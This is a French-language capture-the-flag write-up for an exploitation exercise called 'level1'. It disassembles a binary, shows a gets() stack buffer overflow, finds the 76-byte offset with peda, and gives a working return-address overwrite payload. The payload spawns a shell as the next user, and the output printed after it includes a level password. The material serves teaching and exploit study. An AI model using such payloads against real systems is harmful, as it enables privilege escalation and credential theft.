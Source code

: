## Démarche
<!-- - La commande `readelf -r level1` nous donne des informations à propos du programme elf `level1` :
  
    ```
    Relocation section '.rel.dyn' at offset 0x2c0 contains 2 entries:
    Offset     Info    Type            Sym.Value  Sym. Name
    08049788  00000406 R_386_GLOB_DAT    00000000   __gmon_start__
    080497c0  00000605 R_386_COPY        080497c0   stdout

    Relocation section '.rel.plt' at offset 0x2d0 contains 5 entries:
    Offset     Info    Type            Sym.Value  Sym. Name
    08049798  00000107 R_386_JUMP_SLOT   00000000   gets
    0804979c  00000207 R_386_JUMP_SLOT   00000000   fwrite
    080497a0  00000307 R_386_JUMP_SLOT   00000000   system
    080497a4  00000407 R_386_JUMP_SLOT   00000000   __gmon_start__
    080497a8  00000507 R_386_JUMP_SLOT   00000000   __libc_start_main
    ``` -->

- La commande `objdump -d level1` nous permet de connaitre la constitution du programme :
  - On remarque une fonction `run` en plus du `main`:
     > 08048444 <run>:
  - Ainsi qu'un appel de `gets` dans le `main` : 
    >  8048490:	e8 ab fe ff ff       	call   8048340 <gets@plt>

    Cette fonction est déconseillée :
    `man gets`
    > SECURITY CONSIDERATIONS
     The gets() function cannot be used securely.  Because of its lack of bounds
     checking, and the inability for the calling program to reliably determine
     the length of the next incoming line, the use of this function enables mali-
     cious users to arbitrarily change a running program's functionality through
     a buffer overflow attack.  It is strongly suggested that the fgets() func-
     tion be used in all cases.  (See the FSA.)

- Dans gdb, avec peda (`source /tmp/peda/peda.py`- cf level0)
  - `disass main` :
    ```
    0x08048480 <+0>:	push   ebp
    0x08048481 <+1>:	mov    ebp,esp
    0x08048483 <+3>:	and    esp,0xfffffff0
    0x08048486 <+6>:	sub    esp,0x50
    0x08048489 <+9>:	lea    eax,[esp+0x10]
    0x0804848d <+13>:	mov    DWORD PTR [esp],eax
    0x08048490 <+16>:	call   0x8048340 <gets@plt>
    0x08048495 <+21>:	leave
    0x08048496 <+22>:	ret
     ```
  - `disass run` :
    ```
    Dump of assembler code for function run:
    0x08048444 <+0>:	push   ebp
    0x08048445 <+1>:	mov    ebp,esp
    0x08048447 <+3>:	sub    esp,0x18
    0x0804844a <+6>:	mov    eax,ds:0x80497c0
    0x0804844f <+11>:	mov    edx,eax
    0x08048451 <+13>:	mov    eax,0x8048570
    0x08048456 <+18>:	mov    DWORD PTR [esp+0xc],edx
    0x0804845a <+22>:	mov    DWORD PTR [esp+0x8],0x13
    0x08048462 <+30>:	mov    DWORD PTR [esp+0x4],0x1
    0x0804846a <+38>:	mov    DWORD PTR [esp],eax
    0x0804846d <+41>:	call   0x8048350 <fwrite@plt>
    0x08048472 <+46>:	mov    DWORD PTR [esp],0x8048584
    0x08048479 <+53>:	call   0x8048360 <system@plt>
    0x0804847e <+58>:	leave
    0x0804847f <+59>:	ret
    End of assembler dump.
    ```

  - En lançant le debug avec un breakpoint sur le main (`br main`) puis en sautant jusqu'à l'adresse de la fonction run (`jump *0x08048444`), on obtient l'ouverture d'un shell avec les droits level1 :
    ```
    Good... Wait what?
    [New process 4468]
    process 4468 is executing new program: /bin/dash
    $ whoami
    [New process 4469]
    process 4469 is executing new program: /usr/bin/whoami
    level1
    $ [Inferior 4 (process 4469) exited normally]
    ```
    <!-- - `(python -c 'print("\xef\xbe\xad\xde")' ; cat) | ./level1` -->

  - Pour exploiter la faille de la fonction gets, trouver quelle taille permet d'overflow le buffer :
    - Créer un pattern avec la fonction `pattern create 100` de peda.
    - Lancer le programme avec le pattern sur l'entrée standard :
      
      `run < <(python -c 'print("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")')`
      On obtient bien le segfault attendu.
    - Chercher l'emplacement du pattern en mémoire avec `pattern search` :
        > EIP+0 found at offset: 76

- Dans la Vm :
  - générer une chaine de 76 caractères suivie de l'adresse de la fonction `run` (0x08048444 inversée car système little endian) et la passer sur l'entrée standard du programme :
    `(python -c 'print "A"*76+"\x4a\x84\x04\x08"' ; cat) | ./level1`

    Un nouvel shell est exécuté avec les droits user level2 :
      ```
      Good... Wait what?
      whoami
      level2
      pwd
      /home/user/level1
      cd ../level2
      pwd
      /home/user/level2
      ls
      level2
      ls -la
      total 17
      dr-xr-x---+ 1 level2 level2   80 Mar  6  2016 .
      dr-x--x--x  1 root   root    340 Sep 23  2015 ..
      -rw-r--r--  1 level2 level2  220 Apr  3  2012 .bash_logout
      -rw-r--r--  1 level2 level2 3530 Sep 23  2015 .bashrc
      -rw-r--r--+ 1 level2 level2   65 Sep 23  2015 .pass
      -rw-r--r--  1 level2 level2  675 Apr  3  2012 .profile
      -rwsr-s---+ 1 level3 users  5403 Mar  6  2016 level2
      cat .pass
      53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
      ```

<br>
----
## Ressources

- [Return to libc attack](https://en.wikipedia.org/wiki/Return-to-libc_attack)
- [Buffer Overflow Attack](https://owasp.org/www-community/attacks/Buffer_overflow_attack)
- [Managing inputs for payload injection](https://reverseengineering.stackexchange.com/questions/13928/managing-inputs-for-payload-injection/13929#13929)
- [Check Endian system](https://serverfault.com/questions/163487/how-to-tell-if-a-linux-system-is-big-endian-or-little-endian)


<!-- - [PLT call in ELF programm](https://stackoverflow.com/questions/25667205/what-exactly-does-putsplt-mean) -->
<!-- - [RELRO - Memory Corruption Mitigation Technique](https://tk-blog.blogspot.com/2009/02/relro-not-so-well-known-memory.html) -->
<!-- - [Mémoire - protection : RELRO](https://www.root-me.org/fr/Documentation/Applicatif/Memoire-protection-RELRO) -->